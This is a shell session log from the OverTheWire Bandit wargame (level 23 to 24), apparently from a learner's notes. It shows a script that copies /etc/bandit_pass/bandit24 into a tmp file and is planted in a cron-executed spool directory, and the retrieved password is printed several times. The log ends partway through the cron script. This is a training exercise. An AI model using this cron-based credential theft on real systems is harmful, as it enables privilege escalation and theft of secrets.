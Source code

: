 ```bash
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.65XRzdzv59
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.AKHXJUtTS9
-bash: cd: /tmp/tmp.AKHXJUtTS9: Not a directory
bandit23@bandit:/etc/cron.d$ cd /tmp/
bandit23@bandit:/tmp$ nano scriptYa.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp$ nano scriptYa.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga: command not found
bandit23@bandit:/tmp$ /tmp/tmp.AKHXJUtTS9
-bash: /tmp/tmp.AKHXJUtTS9: Permission denied
bandit23@bandit:/tmp$ cd /tmp/tmp.AKHXJUtTS9
-bash: cd: /tmp/tmp.AKHXJUtTS9: Not a directory
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ ls -l
ls: cannot open directory '.': Permission denied
bandit23@bandit:/tmp$ chmod +x scriptYa.sh
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/
cp: cannot create regular file '/var/spool/bandit24/scriptYa.sh': Operation not permitted
bandit23@bandit:/tmp$ cp scriptYa.sh /var/spool/bandit24/foo/nuevo.sh
bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cat /tmp/tmp.AKHXJUtTS9
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
bandit23@bandit:/tmp$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
```